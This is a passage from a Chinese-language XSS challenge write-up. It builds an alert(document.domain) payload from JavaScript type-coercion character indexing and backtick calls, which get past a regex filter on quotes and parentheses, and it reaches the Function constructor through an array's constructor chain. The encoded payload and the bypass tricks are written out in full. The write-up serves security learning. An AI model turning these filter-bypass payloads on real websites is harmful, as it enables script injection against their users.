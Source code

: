 表单的 HTML

正如你在上面的图片中看到的，进度条有 id `e`。html 元素可以用它的 id 来访问，如下所示。

![](img/0f0574eea60774a6c791b0ce12400cfa.png)

使用 id 访问进度条

有了这些知识，我们可以重新获得一个新的字符串，它包含了更多我们需要的字符。

```
[e+1][0] = "[object HTMLProgressElement]1"
```

如果我们现在对`alert(document.domain)`进行编码，我们会得到下面的有效负载(尽管正则表达式不允许使用单引号和双引号，但是我们可以用反斜线(`)绕过它，所以如果我们需要将`.`和`e`作为一个字符串，就不需要对它们进行编码。

```
[[][[[][[]]+[]][+[]][4]+[[][[]]+[]][+[]][5]+[[][[]]+[]][+[]][1]+[[][[]]+[]][+[]][2]]+[]][0][20]+[e+1][0][21]+`e`+[e+1][0][16]+[e+1][0][6]+[[][[e+1[0]][0][32]+[e+1[0]][0][33]+[e+1[0]][0][34]+[e+1[0]][0][36]]+[]][0][13]+[[][0]+[]][0][2]+[e+1][0][1]+[e+1][0][5]+[e+1[0]][0][28]+[e+1][0][23]+[e+1][0][4]+[e+1][0][25]+[e+1][0][26]+`.`+[[][0]+[]][0][2]+[e+1][0][1]+[e+1][0][23]+[[][[[][[]]+[]][+[]][4]+[[][[]]+[]][+[]][5]+[[][[]]+[]][+[]][1]+[[][[]]+[]][+[]][2]]+[]][0][20]+[[][0]+[]][0][5]+[e+1][0][25]+[[][[e+1[0]][0][32]+[e+1[0]][0][33]+[e+1[0]][0][34]+[e+1[0]][0][36]]+[]][0][14]
```

如果我们在挑战页面上尝试，没有什么有趣的事情发生…

这是因为如果有效载荷被执行，我们只是得到字符串`"alert(document.domain)"`作为返回，而不是实际的函数。

# 执行警报

为了执行警报字符串，我们需要一个函数构造器。这个函数返回一个匿名函数，其中的参数是构造函数中的前 n 个参数，主体是最后一个。然后，可以通过在末尾添加括号(由于正则表达式的原因，我们不能使用括号)来调用匿名函数，如下所示:

```
Function(“param1”, “alert()”)()
```

通过访问一个空数组的属性，我们可以像获取 find 函数一样获取这个函数。首先我们获得数组的构造函数属性，它返回创建对象实例的函数，在本例中是`Array()`。这个实例是由`Function()`创建的，可以通过再次调用构造函数属性来访问。我们现在可以用反斜线来代替括号。

```
[]["constructor"]["constructor"]`"alert(document.domain)"```
```

但是如果我们执行这个函数，我们会得到一个未定义的返回，并且不会触发警报。如果我们检查构造函数的输出，而不调用它(读:删除最后两个反勾号)，那么我们得到下面的输出:

```
ƒ anonymous(
) {
"alert(document.domain)"
}
```

如您所见，警报被放在引号中，因此不会通过调用函数来执行。
